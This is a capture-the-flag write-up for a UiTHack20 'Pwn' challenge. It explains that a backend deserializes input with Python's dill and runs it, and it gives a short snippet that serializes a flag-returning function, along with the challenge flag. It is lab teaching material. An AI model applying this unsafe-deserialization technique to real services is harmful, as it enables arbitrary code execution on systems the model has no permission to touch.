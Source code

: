 ># Frankensteins monster
>> Pwn - 300pts
>
>Frankensteins monster is angry with you. 
>You can try run. You can try to hide. 
>What you can't do, is run forever. 
>The monster never tires, never rests and will always outlast you.
>Your only choice is to distract the monster. 
>
>Luckily for you, Dr. Frankenstein has [contingencies](http://>fire-breathing-unicorn.td.org.uit.no:56733/). 

## Writeup

The backend tries to deserialize the input string into a python object.
This is done using dill so functions can be input and executed.
The output of the executed function is returned.

To solve create a function that returns flag and serialize it with dill. 
```py
import dill

def print_flag():
    return flag

print(dill.dumps(print_flag))
```

Then this can either be posted to the URL or input into the input field.

Flag:
```
UiTHack20{p1ckeled_brAiNs_Are_The_tast14st}
```
